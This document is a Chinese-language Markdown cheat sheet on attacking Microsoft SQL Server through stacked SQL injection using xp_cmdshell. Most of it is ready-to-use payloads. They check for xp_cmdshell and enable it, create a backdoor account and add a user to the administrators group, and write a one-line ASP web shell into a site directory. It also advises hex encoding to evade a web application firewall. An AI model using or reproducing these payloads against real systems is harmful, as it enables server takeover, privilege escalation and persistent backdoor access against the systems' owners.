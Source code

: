 # XP_cmdshell

使用xp_cmdshell 必须是注入点存在堆叠注入
- **mssql手工注入之xp_cmdshell**

- 查看xp_cmdshell是否开启
```mssql
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'   返回正常说明开启
```

- 开启xp_cmdshell
方法：
```mssql
; EXEC  sp_configure  'show advanced options', 1; RECONFIGURE  WITH  OVERRIDE;  EXEC sp_configure  'xp_cmdshell', 1; RECONFIGURE  WITH 1 OVERRIDE;
;exec  sp_configure  'show advanced options', 1; RECONFIGURE  WITH  OVERRIDE;  EXEC sp_configure  'xp_cmdshell', 1; RECONFIGURE  WITH  OVERRIDE;
exec sp_configure 'xp_cmdshell',1;reconfigure;
```
以上三条随便用那条都可以 实在不行就三个都试一下

- 关闭xp-cmdshell
```mssql
exec sp_configure 'show advanced options', 1;reconfigure;
exec sp_configure 'xp_cmdshell', 0;reconfigure
```

----------
- 直接提权(执行cmd命令)
```
exec master..xp_cmdshell 'net user hack 123456. /add'    添加用户hack，密码123456
exec master..xp_cmdshell 'net localgroup administrators test add' 添加test用户到管理员组
```
- 如果数据的权限是dba，且知道网站路径的话，那么我们就可以用这个语句来写一句话

```mssql
;exec master..xp_cmdshell 'echo "<%@ LANGUAGE=VBSCRIPT %>;<%eval request(chr(35))%>''" > d:\KfSite\kaifeng\2.asp'
```
原理是sql server 支持堆叠查询，利用xp_cmdshell 可以执行cmd指令,cmd指令中用【echo 内容 > 文件】 可以写文件到磁盘里面
**可利用hex编码来绕过waf防火墙**
